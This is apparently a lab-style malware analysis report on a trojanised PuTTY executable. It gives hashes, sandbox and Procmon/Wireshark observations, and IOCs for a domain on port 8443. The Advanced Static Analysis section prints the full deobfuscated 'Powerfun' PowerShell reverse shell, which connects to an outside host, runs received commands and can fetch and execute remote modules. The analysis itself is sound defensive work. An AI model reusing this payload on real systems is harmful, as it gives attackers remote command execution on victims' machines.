








## Executive Summary
The analyzed sample is a reverse shell embedded inside a fully functional Putty client.

It consist of a single payload executed on initial detonation by a powershell.exe command that tries to connect to bonus2.corporatebonusapplication[.]local on port 8443

Symptoms of infection include DNS query to the same domain and a following TCP connection try.


## Malware Composition

|  File Name     |  SHA256 Hash  |
|----------------|---------------|
|  putty.exe  |  0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83  |


## VT Analysis
[VT Link](https://www.virustotal.com/gui/file/0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83/relations) (Detection score 59/72)  
  
No other significative results to be reported.


## Basic Static Analysis
### FLOSS interesting findings
[](images/floss.png)

### PEStudio findings
* found a suspicious section: `.00cfg`
* found a suspicious entry-point `.text:0x00122000`

Both findings need an advanced analysis.

### IAT interesting findings
* `ShellExecuteA` and some Windows Registry related imports (may be Putty normal functionality related - eg. saving an ssh key)


## Basic Dynamic Analysis
### Initial detonation
* upon detonation a blue Powershell window appears for a few seconds before the standard Putty window.

### Host-based indicators 
* a `Process Create` operation is executed after detonation, which confirms the Powershell command execution we found during the strings analysis.
[](images/procmon-1.png)

* the `process tree` can also confirm that putty.exe executed Powershell
[](images/procmon-2.png)
  
* by analysing any TCP operations we can notice that the Powershell command seems to be trying to establish a TCP connection to port `8443`
[](images/procmon-3.png)

### Network signatures
* found DNS queries to `bonus2.corporatebonusapplication[.]local`
[](images/wireshark-dns.png)

* by setting up a listener on port `8443` and re-detonating the sample we can get a TCP connection (Wireshark reports a TLS `Client Hello`)
[](images/netcat-1.png)
[](images/wireshark-tcp.png)


## Advanced Static Analysis
* by decoding the base64 string and decompressing it with gzip we finally get the deobfuscated payload
```POWERSHELL
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}

powerfun -Command reverse -Sslcon true
```


## Advanced Dynamic Analysis
Not needed.


## Any.run Analysis
* by searching the SHA256SUM on App.any.run we can find some tasks [(Link here)](https://app.any.run/tasks/0ee9dac1-f2e8-406d-a141-3f8e0be6a5af/) that can confirm the Powershell payload and the DNS query. No other findinds are reported. 
[](images/anyrun-1.png)


## Indicators of Compromise (IOCs)
### Host-based Indicators
* Powershell command execution.
* TCP Connection on port `8443`

### Network Indicators
* DNS query: `bonus2.corporatebonusapplication[.]local`
* TCP connection on port `8443`


## Rules & Signatures
`Placeholder`